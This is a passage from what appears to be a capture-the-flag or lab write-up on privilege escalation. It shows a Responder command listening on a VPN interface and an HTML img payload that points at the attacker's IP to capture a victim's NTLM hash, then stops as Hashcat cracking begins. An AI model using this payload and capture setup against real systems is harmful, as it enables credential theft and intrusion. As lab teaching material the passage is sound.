 <figure><img src="../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (Buse Candan)

So now try to steal the NTLM hash using Responder:

```bash
responder -I tun0 -dPv
```

Using the following payload:

```
<img src="http://10.8.43.53/test"> 
```

<figure><img src="../../.gitbook/assets/image (639).png" alt=""><figcaption></figcaption></figure>

We can now crack this hash using Hashcat:
